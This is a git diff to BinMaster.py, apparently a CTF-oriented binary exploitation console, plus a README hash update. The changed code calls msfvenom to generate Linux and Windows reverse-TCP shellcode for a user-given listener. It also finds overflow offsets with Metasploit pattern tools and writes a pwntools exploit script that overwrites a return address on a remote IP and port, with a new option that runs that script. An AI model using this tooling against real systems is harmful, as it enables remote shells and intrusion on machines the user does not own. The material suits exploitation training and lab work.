

Golden Elf

diff --git a/BinMaster.py b/BinMaster.py
@@ -20,6 +20,7 @@ import r2pipe
 import sqlite3
 import pyfiglet
 import linecache
+import subprocess
 
 from termcolor import colored
 
@@ -309,7 +310,7 @@ def dispMenu():
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
    print('\u2551', end=' ')
    if BITS[:7] != "unknown" and OFF[:1] != "0":
-      print(colored("RIP/EIP    ", colour2), end=' ')
+      print("RIP/EIP    ", end=' ')
       print(colored("*", colour2,attrs=['blink']), end=' ')
    else:
       print("RIP/EIP      ", end=' ')   
@@ -403,60 +404,70 @@ def dispMenu():
    return
    
 def options():
-   print('\u2551' + "(01) Set  ACCUMULATOR (11) Set MAIN ADDRESS (21) Read File Head (31) Pattern   Creater (41) HEX Editor   " + '\u2551' + " FILE INFORMATION AND DIAGNOSTICS " + (" ")*24 + '\u2551')
+   print('\u2551' + "(01) Set  ACCUMULATOR (11) Set MAIN ADDRESS (21) Read   Headers (31) Pattern   Creater (41) HEX Editor   " + '\u2551' + " REMOTE FILE INFORMATION " + (" ")*33 + '\u2551')
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
    print('\u2551' + "(02) Set BASE POINTER (12) Set CUS1 ADDRESS (22) Read   Objects (32) Program Interface (42) Ghidra       " + '\u2560' + ('\u2550')*58 + '\u2563')
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(03) Set LOOP COUNTER (13) Set CUS2 ADDRESS (23) Read   Section (33) L-Trace Interface (43) ImmunityDeBug" + '\u2551' + " FILE NAME   ", end=' ')
+   print('\u2551' + "(03) Set LOOP COUNTER (13) Set CUS2 ADDRESS (23) Read   Section (33) L-Trace Interface (43) ImmunityDeBug" + '\u2551' + " FILE NAME      ", end=' ')
    if FIL[:7] == "unknown":
-      print(colored(FIL[:COL3-13],colour7), end=' ')   
+      print(colored(FIL[:COL3-16],colour7), end=' ')   
    else:
-      print(colored(FIL[:COL3-13],colour6), end=' ')
+      print(colored(FIL[:COL3-16],colour6), end=' ')
    print('\u2551')
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(04) Set DATALOCATION (14) Select  FILENAME (24) Read   Headers (34) G.D.B.  Interface (44) NASM ShellCod" + '\u2551' + " FORMAT      ", end=' ')
+   print('\u2551' + "(04) Set DATALOCATION (14) Select  FILENAME (24) Read   Headers (34) G.D.B.  Interface (44) NASM    Shell" + '\u2551' + " FORMAT         ", end=' ')
    if COM[:7] != "unknown":
       print(colored(COM,colour6), end=' ')
    else:
       print(colored(COM,colour7), end=' ')  
    print("MODE   ", end=' ') 
    if MODE[:7] == "unknown":
-      print(colored(MODE[:7],colour7), end=' ')
+      print(colored(MODE[:COL1-5],colour7), end=' ')
    else:
-      print(colored(MODE[:7],colour6), end=' ') 
-   print((" ")*9+ '\u2551')
+      print(colored(MODE[:COL1-5],colour6), end=' ') 
+   print('\u2551')
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(05) Set SOURCE INDEX (15) Switch File Mode (25) Read   Execute (35) Find SegmentFault (45) Gen ShellsCod" + '\u2551' + " ARCHITECTURE", end= ' ')
+   print('\u2551' + "(05) Set SOURCE INDEX (15) Switch File Mode (25) Read   Execute (35) Find SegmentFault (45) Gen ShellCode" + '\u2551' + " ARCHITECTURE   ", end= ' ')
    if ARC[:7] == "unknown":
       print(colored(ARC,colour7), end=' ')
    else:
       print(colored(ARC,colour6), end=' ')
    print("FLAVOUR", end=' ')
    print(colored(flavour[:5],colour6),end=' ' )
-   print((" ")*11 + '\u2551')
+   print((" ")*8 + '\u2551')
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(06) Set DESTIN INDEX (16) Examine  Program (26) Read DeBugInfo (36) Set Buffer OFFSET (46) GenExploitCod" + '\u2551' + " BITS        ", end=' ')
+   print('\u2551' + "(06) Set DESTIN INDEX (16) Examine  Program (26) Read DeBugInfo (36) Set Buffer OFFSET (46) RESERVED     " + '\u2551' + " BITS           ", end=' ')
    if BITS[:1] != "u":
       print(colored(BITS,colour6), end=' ')
    else:
-      print(colored(BITS,colour7), end=' ')      
-   print((" ")*25 + '\u2551')  
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(07) Set STACKPOINTER (17) CheckSec Program (27) Read   Intamix (37) Dis-Assemble MAIN (47) RESERVED     " + '\u2551' + " INDIAN      ", end=' ')
+      print(colored(BITS,colour7), end=' ')   
+   print("INDIAN ", end=' ')       
    if IND[:7] == "unknown":
-      print(colored(IND,colour7), end=' ')
+      print(colored(IND[:COL1-5],colour7), end=' ')
    else:
-      print(colored(IND,colour6), end=' ')
-   print((" ")*25 + '\u2551')
+      print(colored(IND[:COL1-5],colour6), end=' ')  
+   print('\u2551')  
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(08) Set BASE POINTER (18) G.D.B. Functions (28) Read   Symbols (38) Dis-Assemble FUNC (48) RESERVED     " + '\u2551' + " LIBC VERSION", end=' ')
-   if LIBC[:1] == "u":
-      print(colored(LIBC[:COL2-2],colour7), end=' ')
+   print('\u2551' + "(07) Set STACKPOINTER (17) CheckSec Program (27) Read   Intamix (37) Dis-Assemble MAIN (47) Set IP & Port" + '\u2551'  " REMOTE ADDRESS ", end=' ')
+   if remAddr[:7] == "unknown":
+      print(colored(remAddr,colour7), end=' ')
    else:
-      print(colored(LIBC[:COL2-2],colour6), end=' ')
+      print(colored(remAddr,colour6), end=' ')
+   print("PORT   ", end=' ')
+   if remPort[:7] == "unknown":
+      print(colored(remPort[:13],colour7),end=' ' )
+   else:
+      print(colored(remPort[:13],colour6),end=' ' )   
+   print('\u2551')   
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(08) Set BASE POINTER (18) G.D.B. Functions (28) Read   Symbols (38) Dis-Assemble FUNC (48) Write Exploit" + '\u2551' + " LIBC VERSION   ", end=' ')
+   if LIBC[:7] == "unknown":
+      print(colored(LIBC[:COL2-5],colour7), end=' ')
+   else:
+      print(colored(LIBC[:COL2-5],colour6), end=' ')
    print('\u2551') 
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(09) Set INSP POINTER (19) Radar2 Functions (29) Read Stab Data (39) Dis-Assemble ADDR (49) RESERVED     " + '\u2551' + "                                                          " + '\u2551')
+   print('\u2551' + "(09) Set INSP POINTER (19) Radar2 Functions (29) Read Stab Data (39) Dis-Assemble ADDR (49) Run Exploit  " + '\u2551' + "                                                          " + '\u2551')
    print('\u2551' + "(10) Set STARTADDRESS (20) Find all Gadgets (30) Read HexFormat (40) RESERVED          (50) Exit         " + '\u2551' + "                                                          " + '\u2551')
    print('\u255A' + ('\u2550')*105 + '\u2569' +  ('\u2550')*58 + '\u255D') #colored("VALUE",colour5)
    return
@@ -545,6 +556,7 @@ print("[+] Populating system variables...")
 COL1 = 18
 COL2 = 45
 COL3 = 56
+LEN1 = 0
 
 FUNC = [" "*COL2]*maxDispl
 GADD = [" "*COL3]*maxDispl
@@ -561,6 +573,8 @@ RW = spacePadding("RWX      unknown", COL1)
 
 # NEW VARIABLES THAT NEED TO BE ADDED TO THE DATABASE
 
+remAddr = spacePadding("unknown", COL1)
+remPort = spacePadding("unknown", COL1)
 BITS = spacePadding("unknown", COL1)
 MODE = spacePadding("unknown", COL1)
 LIBC = spacePadding("unknown", COL2)
@@ -968,7 +982,7 @@ while True:
             BITS = spacePadding(BITS, COL1)         
          if "LSB" in binary:
             IND = "Little"
-            print(IND + " indian...")
+            print(IND + " indian format...")
             IND = spacePadding(IND, COL1)
          if "MSB" in binary:
             IND = "Big"
@@ -1196,7 +1210,12 @@ while True:
                if "vax" in data:
                   ARC = spacePadding("vax", COL1)
                if "elf" in data:
-                  COM = spacePadding("ELF", COL1)
+                  COM = spacePadding("ELF", COL1)                  
+         if SRT[:18] == "0x0000000000000000":
+            command("cat headers.tmp | grep start > start.tmp")
+            with open("start.tmp","r") as address:
+               SRT = address.readline().split(" ")[2]
+               SRT = spacePadding(SRT, COL1)
       prompt()   
    
 # ------------------------------------------------------------------------------------- 
@@ -1372,10 +1391,10 @@ while True:
       if FIL[:7].upper() == "UNKNOWN":
          print("[-] Filename not specified...")
       else:
-         length = input("[?] Please input length of pattern: ")
-         if length.isdigit():
+         LEN1 = input("[?] Please input LEN1 of pattern: ")
+         if LEN1.isdigit():
             print(colored("[*] Creating unique pattern...", colour3))          
-            command("msf-pattern_create -l " + length + " > pattern.tmp")
+            command("msf-pattern_create -l " + LEN1 + " > pattern.tmp")
             catsFile("pattern.tmp")
          else:
             print("[-] Invalid value...")
@@ -1446,7 +1465,7 @@ while True:
          print(colored("[*] Finding buffer offset...", colour3))
          offset = input("[?] Please enter segmentation fault value: ")
          if offset != "":
-            command("msf-pattern_offset -l " + length + " -q " + offset + " > offset.tmp")
+            command("msf-pattern_offset -l " + LEN1 + " -q " + offset + " > offset.tmp")
             catsFile("offset.tmp")
             OFF = linecache.getline("offset.tmp", 1).rstrip("\n").split(" ")[-1]
             OFF = spacePadding(OFF, COL1)
@@ -1595,11 +1614,8 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection == '44':
-      if FIL[:7].upper() == "UNKNOWN":
-         print("[-] Filename not specified...")
-      else:
-         print(colored("[*] Nasm shell initiated...", colour3))          
-         command("/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb")
+      print(colored("[*] Nasm shell initiated...\n", colour3))          
+      command("/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb")
       prompt()  
       
 # ------------------------------------------------------------------------------------- 
@@ -1611,17 +1627,40 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection == '45':
-      if FIL[:7].upper() == "UNKNOWN":
-         print("[-] Filename not specified...")
+      localHost = input("[?] Please enter localhost value: ")
+      localPort = input("[?] Please enter localport value: ")
+      if COM[:3] == "ELF":
+         command("msfvenom -p linux/x" + ARC[:2] + "/shell_reverse_tcp LHOST=" + localHost + " LPORT=" + localPort + " EXITFUNC=thread -f c -a x" + ARC[:2] + " > payload.tmp")
       else:
-         localHost = input("[?] Please enter localhost value: ")
-         localPort = input("[?] Please enter localport value: ")
-         if COM[:3] == "ELF":
-            command("msfvenom -p linux/x" + ARC[:2] + "/shell_reverse_tcp LHOST=" + localHost + " LPORT=" + localPort + " EXITFUNC=thread -f c -a x" + ARC[:2] + " > payload.tmp")
-         else:
-            command("msfvenom -p windows/shell_reverse_tcp LHOST=" + localHost + " LPORT=" + localPort + " EXITFUNC=thread -f c -a x" + ARC[:2] + " > payload.tmp")
-         catsFile("payload.tmp")
+         command("msfvenom -p windows/shell_reverse_tcp LHOST=" + localHost + " LPORT=" + localPort + " EXITFUNC=thread -f c -a x" + ARC[:2] + " > payload.tmp")
+      catsFile("payload.tmp")
       prompt()  
+      
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : GOLDEN ELF
+# Details : Menu option selected - Blank.
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '46':
+      prompt()
+      
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : GOLDEN ELF
+# Details : Menu option selected - Blank.
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '47':
+      remAddr = input("[?] Please enter remote IP address : ")
+      remAddr = spacePadding(remAddr, COL1)
+      remPort = input("[?] Please enter remote port number: ")
+      remPort = spacePadding(remPort, COL1)
+      prompt()      
       
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1631,7 +1670,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '46':
+   if selection == '48':
       if FIL[:7].upper() == "UNKNOWN":
          print("[-] Filename not specified...")
       else:
@@ -1658,7 +1697,7 @@ while True:
          command("echo '#context.endian = \"" + IND.rstrip(" ") + "\"' >> " + localDir + "/exploit.py")
          command("echo '' >> " + localDir + "/exploit.py")
          command("echo 'try:' >> " + localDir + "/exploit.py")
-         command("echo '   s = remote(\"10.10.10.10\", 1010)' >> " + localDir + "/exploit.py")
+         command("echo '   s = remote(\"" + remAddr.rstrip(" ") + "\", " + remPort.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo 'except:' >> " + localDir + "/exploit.py")
          command("echo '   s = process(\"./" + FIL.rstrip(" ") + "\")'  >> " + localDir + "/exploit.py")
          command("echo '' >> " + localDir + "/exploit.py")
@@ -1666,9 +1705,9 @@ while True:
         # ADD OTHER REGISTER HERE!!
         
          command("echo 'start = " + SRT.rstrip(" ") + "' >> " + localDir + "/exploit.py")
-         command("echo 'main = " + MAIN.rstrip(" ") + "' >> " + localDir + "/exploit.py")
-         command("echo 'cus1 = " + CUS1.rstrip(" ") + "' >> " + localDir + "/exploit.py")
-         command("echo 'cus2 = " + CUS2.rstrip(" ") + "' >> " + localDir + "/exploit.py")
+         command("echo 'main  = " + MAIN.rstrip(" ") + "' >> " + localDir + "/exploit.py")
+         command("echo 'cus1  = " + CUS1.rstrip(" ") + "' >> " + localDir + "/exploit.py")
+         command("echo 'cus2  = " + CUS2.rstrip(" ") + "' >> " + localDir + "/exploit.py")
          command("echo '' >> " + localDir + "/exploit.py")
          command("echo 'buffers   = \"a\" * " + OFF.rstrip(" ").replace("Bytes","") + "' >> " + localDir + "/exploit.py")
          command("echo 'integer   = \"a\" * 4' >> " + localDir + "/exploit.py")
@@ -1677,22 +1716,23 @@ while True:
          else:
             command("echo 'pointer   = \"a\" * 4' >> "+ localDir + "/exploit.py")         
          command("echo 'padding   = \"a\" * 4' >> "+ localDir + "/exploit.py")  
-         command("echo 'overwrite = p64(cus1)' >> "+ localDir + "/exploit.py")  
-         command("echo 'term      = \"\ n\"' >> "+ localDir + "/exploit.py")
+         command("echo 'overwrite = p64(cus1)' >> "+ localDir + "/exploit.py")          
+         command("echo 'term      = \"\\\\n\"' >> " + localDir + "/exploit.py")         
          command("echo '' >> " + localDir + "/exploit.py")
          command("echo 'payload = flat(buffers,overwrite,term)' >> " + localDir + "/exploit.py")
-         command("echo 'print(payload)' >> " + localDir + "/exploit.py")
+         command("echo '# print(payload)' >> " + localDir + "/exploit.py")
          command("echo '' >> " + localDir + "/exploit.py")
          command("echo 's.recvuntil(\"Enter your name :\")' >> " + localDir + "/exploit.py")
          command("echo 's.send(payload)' >> " + localDir + "/exploit.py")
-         command("echo 's.recvuntil(\"Congratulations!\ n\")'  >> " + localDir + "/exploit.py")
+         command("echo 's.recvuntil(\"Congratulations!\\\\n\")'  >> " + localDir + "/exploit.py")
          command("echo 'flag = s.recv()' >> " + localDir + "/exploit.py")
          command("echo 'success(flag)' >> " + localDir + "/exploit.py")
-         command("echo 's.interactive()' >> " + localDir + "/exploit.py")
+         command("echo '# s.interactive()' >> " + localDir + "/exploit.py")
          command("echo 's.close()' >> " + localDir + "/exploit.py")
          print(colored("[*] Python exploit template sucessfully created...", colour3))
-         prompt()              
+      prompt()              
          
+
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
@@ -1701,18 +1741,14 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '48':
-      prompt()
-      
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : GOLDEN ELF
-# Details : Menu option selected - Blank.
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '49':       
+   if selection == '49':     
+      if FIL[:7].upper() == "UNKNOWN":
+         print("[-] Filename not specified...")
+      else:  
+         os.chdir(localDir)
+         command("echo 'https://youtu.be/me_yl82pDqE' > flag.txt")  
+         os.system("python3 exploit.py")
+         os.chdir("..")
       prompt()
       
 # ------------------------------------------------------------------------------------- 
@@ -1725,7 +1761,7 @@ while True:
 
    if selection == '50':        
       saveParams()
-      command("rm *.tmp")      
+      command("rm *.tmp")    
       connection.close()
       print(colored("[*] Program sucessfully terminated...", colour3))
       exit(1)  

diff --git a/README.md b/README.md
@@ -24,7 +24,8 @@ USAGE : python3 BinMaster.py
 
 | LANGUAGE  | FILENAME     | MD5 Hash                         | DESCRIPTION    | VERSION    |
 |------     |------        | -------                          | ------         | ----       |
-| python3   | BinMaster.py | 80fe6c2ee00f56b70aff81311a586120 | Command Centre | Golden Elf |
+| python3   | BinMaster.py | 448bf101c759259c69f6bb1427945526 | Command Centre | Golden Elf |
+| elf       | Golden       | 60383b9557612da5f69824354cb2561b | Binary File    | Golden Elf |
 
 ### CONSOLE DISPLAY AND VIDEO LINK
 [![RamMater](https://github.com/BroadbentT/BIN-MASTER/blob/master/picture3.png)](https://youtu.be/lUbo5QZdEN8 "Binary Master")
